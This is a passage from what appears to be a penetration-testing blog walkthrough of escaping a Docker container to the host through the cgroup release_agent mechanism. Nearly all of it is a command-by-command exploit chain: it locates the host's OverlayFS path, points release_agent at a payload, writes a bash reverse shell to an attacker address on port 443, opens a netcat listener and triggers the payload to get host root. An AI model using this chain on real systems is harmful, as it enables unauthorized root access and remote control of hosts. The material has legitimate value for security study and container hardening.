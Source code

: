 Once that is done, we need to enable cgroup notifications on release of the “x” cgroup.

echo 1 > /tmp/cgrp/x/notify_on_release

Next, we need to find the path of the OverlayFS mount for the container.

host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

With that set, the next step is to set the release_agent to /path/payload

echo "$host_path/breakout" > /tmp/cgrp/release_agent

Now we need to craft our payload, which will be a reverse shell to our attacker machine over port 443.

echo '#!/bin/bash' > /breakout
echo 'bash -i >& /dev/tcp/172.16.1.30/443 0>&1' >> /breakout

Alright, just about done! Next, we just need to add execution permissions to the payload and then head back to our attacker machine to setup a netcat listener on port 443.

chmod a+x /breakout

And back on our attacker machine…

nc -nvlp 443

Finally, heading back to the victim once again, we can now execute our payload with the following command:

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

Moment of truth… and back on our listener, we got root!

Amazing! Even without the –privileged flag being set, we were able to breakout and get root on the host! Granted, it did require a few permissions to be set for this exploit to work.

    If you want to learn about different container breakouts, then check out my post on the lxd group here.
